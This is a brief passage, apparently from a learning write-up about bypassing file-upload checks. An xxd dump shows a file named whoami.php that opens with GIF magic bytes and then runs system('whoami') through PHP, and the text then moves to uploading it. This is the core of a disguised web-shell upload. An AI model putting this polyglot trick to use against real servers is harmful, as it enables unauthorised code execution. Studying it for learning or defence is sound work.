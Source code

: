 it says that is a gif because of the magic numbers, if you want to check more datailed apply a ```xxd``` command to check the first bytes of the file 

```bash 
❯ xxd whoami.php
00000000: 4749 4638 3b0a 3c3f 7068 700a 7379 7374  GIF8;.<?php.syst
00000010: 656d 2822 7768 6f61 6d69 2229 0a3f 3e0a  em("whoami").?>.

```


let's try to upload 


I am learning how to obfuscate code. The answer will come soon.
